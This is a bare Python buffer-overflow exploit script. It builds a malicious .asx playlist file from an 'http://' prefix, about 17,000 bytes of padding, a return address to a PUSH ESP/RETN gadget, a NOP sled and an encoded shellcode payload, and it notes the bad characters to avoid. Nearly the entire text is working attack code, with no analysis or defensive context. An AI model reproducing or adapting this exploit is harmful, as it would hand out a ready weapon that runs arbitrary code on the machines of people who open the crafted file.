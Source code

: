 # Buffer-Overflow Python script

\#!/usr/bin/python

&#x20;\#1003DF73 54 PUSH ESP&#x20;

\#1003DF74 C3 RETN&#x20;

buf = "" buf += "\xdd\xc0\xd9\x74\x24\xf4\xbf\x34\xb3\x89\x17\x5d\x31"&#x20;

buf += "\xc9\xb1\x31\x31\x7d\x17\x03\x7d\x17\x83\xd9\x4f\x6b"&#x20;

buf += "\xe2\xdd\x58\xee\x0d\x1d\x99\x8f\x84\xf8\xa8\x8f\xf3"&#x20;

buf += "\x89\x9b\x3f\x77\xdf\x17\xcb\xd5\xcb\xac\xb9\xf1\xfc"&#x20;

buf += "\x05\x77\x24\x33\x95\x24\x14\x52\x15\x37\x49\xb4\x24"&#x20;

buf += "\xf8\x9c\xb5\x61\xe5\x6d\xe7\x3a\x61\xc3\x17\x4e\x3f"&#x20;

buf += "\xd8\x9c\x1c\xd1\x58\x41\xd4\xd0\x49\xd4\x6e\x8b\x49"&#x20;

buf += "\xd7\xa3\xa7\xc3\xcf\xa0\x82\x9a\x64\x12\x78\x1d\xac"&#x20;

buf += "\x6a\x81\xb2\x91\x42\x70\xca\xd6\x65\x6b\xb9\x2e\x96"

&#x20;buf += "\x16\xba\xf5\xe4\xcc\x4f\xed\x4f\x86\xe8\xc9\x6e\x4b"&#x20;

buf += "\x6e\x9a\x7d\x20\xe4\xc4\x61\xb7\x29\x7f\x9d\x3c\xcc"&#x20;

buf += "\xaf\x17\x06\xeb\x6b\x73\xdc\x92\x2a\xd9\xb3\xab\x2c"&#x20;

buf += "\x82\x6c\x0e\x27\x2f\x78\x23\x6a\x3a\x7f\xb1\x11\x08"&#x20;

buf += "\x7f\xc9\x19\x3d\xe8\xf8\x92\xd2\x6f\x05\x71\x97\x80"&#x20;

buf += "\x4f\xdb\xbe\x08\x16\x8e\x82\x54\xa9\x65\xc0\x60\x2a"&#x20;

buf += "\x8f\xb9\x96\x32\xfa\xbc\xd3\xf4\x17\xcd\x4c\x91\x17"&#x20;

buf += "\x62\x6c\xb0\x74\xe9\xf6\x15\x1f\x89\x93\x69"&#x20;

buff = "http://"&#x20;

buff += "A" \* 17417&#x20;

buff += "\x73\xDF\x03\x10"&#x20;

buff += "\x90" \* 16&#x20;

buff += buf

buff += "C" \* (20000-17417-4-16-219)&#x20;

f=open("reproduce.asx","w")&#x20;

try:&#x20;

f.write (buff)&#x20;

f.close()&#x20;

print "File Created"&#x20;

except:&#x20;

print "File can not be created"&#x20;

\#badchars = \x00,\x0a
